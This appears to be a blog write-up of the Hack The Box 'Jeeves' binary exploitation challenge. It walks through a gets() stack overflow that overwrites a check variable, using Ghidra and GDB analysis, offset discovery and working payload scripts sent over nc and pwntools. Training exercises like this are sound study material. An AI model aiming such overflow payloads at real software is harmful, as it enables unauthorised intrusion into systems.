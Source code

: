```yaml
---
layout: single
title:  "Intro to Binary Exploitation: HTB Jeeves"
seo_title: "Introduction to Binary Exploitation with Hack The Box: Jeeves Pwn Challenge writeup"
date:   2023-09-08 12:30:00 +0200
categories: ['Binary Exploitation','Hack The Box']
classes: wide
toc: true
excerpt: Hack The Box Jeeves writeup for the first Pwn challenge in the Intro to Binary Exploitation track.
---
```

# HTB Jeeves Pwn Challenge Writeup
Today we take on a simple binary exploitation challenge from Hack The Box. In this post we are going to solve the Jeeves Pwn challenge from the **Intro to Binary Exploitation** track.

## Running the program
We start off by running the program normally. We are given a prompt asking for our name.
```bash
$ ./jeeves 
Hello, good sir!
May I have your name? bytebl33d
Hello bytebl33d, hope you have a good day! 
```
The program subsequently prints a greeting message back to us. Based on this response alone, we can assume that our input is stored somewhere in a buffer.

## Examining the binary with Ghidra
Let's decompile the binary using Ghidra so that we can better understand its inner workings. After importing the binary we can analyze the `main` function:
```c
main(void){
  char input [44];
  int file;
  void *buffer;
  int check;
  
  check = -0x21523f2d;
  printf("Hello, good sir!\nMay I have your name? ");
  gets(input);
  printf("Hello %s, hope you have a good day!\n",input);
  if (check == 0x1337bab3) {
    buffer = malloc(0x100);
    file = open("flag.txt",0);
    read(file,buffer,0x100);
    printf("Pleased to make your acquaintance. Here\'s a small gift: %s\n",buffer);
    close(file);
  }
  return 0;
}
```
The user input is stored inside the input buffer with a size of 44 bytes. We also see there is a `flag.txt` file that gets opened after the if-statement that verfifies if the `check` variable is equal to the value `0x1337bab3` (or in other words 'leetbabe'). However, this check is never going to succeed because the `check` variable is initialized in a different way. We therefore need to find out how to overwrite this variable on the stack. 

The assembly view in Ghidra shows this variable is given the hex value of `0xdeadc0d3` (since this is indeed just dead code).

![ghidra](/assets/images/binary-exploitation/ghidra.png)

## Examining the binary in GDB
Loading the binary into GDB and disassembling the `main` function we get the following output:
```as
$ gdb jeeves

pwndbg> disass main
Dump of assembler code for function main:
   0x00000000000011e9 <+0>: endbr64
   0x00000000000011ed <+4>: push   rbp
   0x00000000000011ee <+5>: mov    rbp,rsp
   0x00000000000011f1 <+8>: sub    rsp,0x40
   0x00000000000011f5 <+12>:    mov    DWORD PTR [rbp-0x4],0xdeadc0d3
   0x00000000000011fc <+19>:    lea    rdi,[rip+0xe05]        # 0x2008
   0x0000000000001203 <+26>:    mov    eax,0x0
   0x0000000000001208 <+31>:    call   0x10a0 <printf@plt>
   0x000000000000120d <+36>:    lea    rax,[rbp-0x40]
   0x0000000000001211 <+40>:    mov    rdi,rax
   0x0000000000001214 <+43>:    mov    eax,0x0
   0x0000000000001219 <+48>:    call   0x10d0 <gets@plt>
   0x000000000000121e <+53>:    lea    rax,[rbp-0x40]
   0x0000000000001222 <+57>:    mov    rsi,rax
   0x0000000000001225 <+60>:    lea    rdi,[rip+0xe04]        # 0x2030
   0x000000000000122c <+67>:    mov    eax,0x0
   0x0000000000001231 <+72>:    call   0x10a0 <printf@plt>
```
Our task is to figure out how many bytes we have to overflow the buffer in order to overwrite the `check` variable. Lets's set a breakpoint right after the `gets` call and run the program (just enter some A's as our input):
```as
pwndbg> b *main+53
pwndbg> r

<SNIP>

*RBP  0x7fffffffdec0 ◂— 0x1
*RSP  0x7fffffffde80 ◂— 'AAAAAAAAAA'
*RIP  0x55555555521e (main+53) ◂— lea rax, [rbp - 0x40]
────────────────────────────────────[ DISASM / x86-64 / set emulate on ] ────────────────────────────────────────────────
 ► 0x55555555521e <main+53>     lea    rax, [rbp - 0x40]
   0x555555555222 <main+57>     mov    rsi, rax
   0x555555555225 <main+60>     lea    rdi, [rip + 0xe04]
   0x55555555522c <main+67>     mov    eax, 0
   0x555555555231 <main+72>     call   printf@plt              <printf@plt>
   0x555555555236 <main+77>     cmp    dword ptr [rbp - 4], 0x1337bab3
   0x55555555523d <main+84>     jne    main+191                <main+191>
   0x55555555523f <main+86>     mov    edi, 0x100
   0x555555555244 <main+91>     call   malloc@plt              <malloc@plt>
   0x555555555249 <main+96>     mov    qword ptr [rbp - 0x10], rax
   0x55555555524d <main+100>    mov    esi, 0
```
Looking at the RIP (Instruction Pointer) above, we can see that it is comparing `dword ptr [rbp - 4]` with `0x1337bab3`. Let's have a look at the value of `rbp-4` in GDB.
```bash
pwndbg> x/x $rbp-4 
0x7fffffffdebc: 0xdeadc0d3
```
To see what happens when we change this variable, we can try to change it using `pwndbg` and continue running the program. Pwndbg is just a handy GDB plug-in that makes debugging with GDB easier for reverse-engineering tasks.
```bash
pwndbg> set *0x7fffffffdebc = 0x1337bab3
pwndbg> x/x $rbp-4
0x7fffffffdebc: 0x1337bab3
pwndbg> c
Continuing.
Hello AAAAAAAAAA, hope you have a good day!
Pleased to make your acquaintance. Here's a small gift: 
[Inferior 1 (process 13162) exited normally]
```
Looking at the output we can see that if we are able to change the variable to `0x1337bab3`, we receive a small gift. This is probably the flag we are looking for.

## The Exploitation
Using python3 we can find the offset by generating a pattern and running the program with this input. To make our lifes a bit easier, we can do this with the `pwntools` package as follows:
```bash                                                                                            
pwn cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```
We run the program again with the created pattern and inspect `rbp-4`:
```bash
pwndbg> x/x $rbp-4 
0x7fffffffdebc: 0x61616170      # this is paaa in ASCII
```
We see that the variable now gets overwritting with `paaa`. Finding the offset is as easy as just using the `cyclic_find` function from `pwntools`:
```python
$ python3
>>> from pwn import *
>>> cyclic(100)
>>> cyclic_find('paaa')
>>> 60
```
So our final payload will be: `A*60 + 0x1337bab3`.

### Crafting our payload
Now we have all the information to craft our payload.
```python
from pwn import *

check = p64(0x1337bab3)
payload = b"A"*60 + check

print(payload)
```
Or we can run it directly in GDB to test our payload first:
```bash
pwndbg> r <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*60 + b"\xb3\xba\x37\x13")')
```

## Executing our payload on the target
Here we will show 2 ways of executing our payload. The first method is a manual approach, while the other is a more automated way using `pwntools`.

### Method 1 (manual)
```bash
nc <IP_ADDRESS> <PORT> <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*60 + b"\xb3\xba\x37\x13")')
```

### Method 2 (pwntools)
```python
from pwn import *

target = process(b"nc")
target.sendline(b"<IP_ADDRESS> <PORT>")

payload = b"A"*60
payload += p64(0x1337bab3)

target.sendline(payload)

print(target.recvuntil(b"}"))
```
Running our exploit code:
```bash
$ python3 exploit.py
[+] Starting local process '/usr/bin/nc': pid 20136
b"Cmd line: Hello, good sir!
May I have your name? Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xb3\xba7\x13, hope you have a good day!
Pleased to make your acquaintance. Here's a small gift: HTB{w3*****************!}"
[*] Process '/usr/bin/nc' stopped with exit code 0 (pid 20136)
```
After running our exploit, we indeed get the flag back. We have successfully completed our first pwn challenge in the Intro to Binary Exploitation track.